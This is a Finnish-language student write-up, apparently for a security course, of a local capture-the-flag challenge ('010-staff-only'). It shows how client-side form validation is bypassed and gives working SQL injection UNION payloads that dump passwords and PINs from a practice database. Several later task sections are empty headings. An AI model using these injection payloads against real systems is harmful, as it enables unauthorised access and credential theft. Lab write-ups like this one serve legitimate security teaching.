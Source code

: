 # H2 Break & unbreak
## Ympäristö
- Windows 11 PC
- Vmware workstation pro 17
- [Kali linux VMware image](https://www.kali.org/get-kali/#kali-virtual-machines)

## x

## a Murtaudu 010-staff-only. Hack'n Fix
### Tehtävän alustus
Aloitetaan lataamalla tehtävät
```GNOME
wget https://terokarvinen.com/hack-n-fix/teros-challenges.zip
unzip teros-challenges.zip
```
Siirrytään kansioon ja käynnistetään tehtävän verkkosivu
```GNOME
cd challenges/010-staff-only/
python3 staff-only.py
```
![part1](/kuvat/staff-only1.png)
### Ratkaisu
 - Avataan sivu verkkoselaimessa, esim Mozilla firefox http://127.0.0.1:5000/
 - Avataan Element picker **Ctrl+Shift+C**
 - Tutkimalla verkkosivua huomataan, että pinkoodien takana oleva lomake vaatii **numeroita!**
 - Ei hätää, sen voi vaatimuksen voi vain poistaa **web developer toolssissa**
 ![part2](/kuvat/staff-only2.png)
 - Tämän jälkeen lomakeesta voi lähettää stringin!
 - Luin tehtävää varten [portswiggeristä](https://portswigger.net/web-security/sql-injection/union-attacks) artikkelin **UNION** hyökkäyksistä joiden avulla voidaan sql injektiossa lähettää toinen haku sql tietokantaan
 - Piippu operaattorilla | | saadaan lisämausteena korkattua myös pinkoodit salasanojen kanssa  
 ```
 ' UNION SELECT password || '~' || pin FROM pins --
 ```
- Your password is **SUPERADMIN%%rootALL-FLAG{Tero-e45f8764675e4463db969473b6d0fcdd}~11112222333**
- Lisäämällä **LIMIT** operaattori voidaan käydä tietokantaa läpi
```
' UNION SELECT password || '~' || pin FROM pins LIMIT 2,1 --
```
-  foo~321
-  loremipsum~321


## b Korjaa 010-staff-only haavoittuvuus lähdekoodista. Osoita testillä, että ratkaisusi toimii.

## c Ratkaise dirfuzt-1 artikkelista Karvinen 2023: Find Hidden Web Directories - Fuzz URLs with ffuf.
### Tehtävän alustus

## d Murtaudu 020-your-eyes-only. Hack'n Fix

## e Korjaa 020-your-eyes-only haavoittuvuus. Osoita testillä, että ratkaisusi toimii.
